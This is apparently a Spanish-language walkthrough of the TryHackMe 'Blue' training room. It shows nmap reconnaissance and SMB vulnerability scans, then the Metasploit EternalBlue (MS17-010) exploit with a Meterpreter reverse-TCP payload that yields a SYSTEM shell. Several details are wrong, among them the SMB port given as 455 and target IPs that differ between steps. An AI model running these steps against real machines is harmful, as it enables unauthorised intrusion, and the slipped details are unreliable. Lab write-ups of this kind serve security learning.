 ```yaml
---
title : Máquina|Blue|THM|SMB|EternalBlue 
published : True
---
```


<div class="contenedor imgc">
    <img class="imgc" src="imgs/blue/blue.gif" style="width: 169px" alt="Cheese logo">
    <div> 
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Dificultad: Fácil </p>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Url: <a href="https://tryhackme.com/room/blue" style="color: lightblue;">Blue</a></p>
    </div>
</div>

<h2><font color="white"><center># Blue</center></font></h2>
* <p>Empezaremos con el reconocimiento de la maquina</p>
> ping -c 1 10.10.157.254

<img src="/imgs/blue/blue0.jpg"/>
* <p>Vemos que en la imagen el ttl es de 127 lo que indica que es una maquina windows, ahora vemos que puertos están abiertos.</p>
> nmap --min-rate 5000 -Pn -sS --open 10.10.157.254 -o allports

<img src="/imgs/blue/blue1.jpg"/>
* <p>tiene el puerto smb abierto 455 veremos si tiene vulnerabilidades, con nmap.</p>
> nmap --script smb-vuln* 10.10.127.254

<img src="/imgs/blue/blue2.jpg"/>
* <p>Al paracer es vulnerable a ( ms17-010 EternalBlue ), ahora explotemos conmsfconsole, usamos el exploit EternalBlue </p>
> use exploit/windows/smb/ms17_010_eternalblue

<img src="/imgs/blue/blue3.jpg"/>
* <p>Ahora indicamos el payload que queremos ejecutar una vez ganado acceso a la maquina.</p>
> set payload windows/meterpreter/reverse_tcp

<img src="/imgs/blue/blue4.jpg"/>
* <p>Indicamos la ip de la maquina victima con set rhosts.</p>

<img src="/imgs/blue/blue5.jpg"/>
* <p>Ahora indicamos nuestra ip tun0 de nuestra vpn de tryHackMe.</p>

<img src="/imgs/blue/blue6.jpg"/>
* <p>Seguidamente cambiamos el puerto 444 que viene por defecto para el payload, en caso de que haya un firewall indicado para cerrar conecciones
por el puerto 444.</p>

<img src="/imgs/blue/blue7.jpg"/>
* <p>Seguidamente ejecutamos exploit para iniciar el ataque.</p>

<img src="/imgs/blue/blue8.jpg"/>
* <p>Listo si ejecuta el comando Shell, y pone whoami sera autority system.</p>


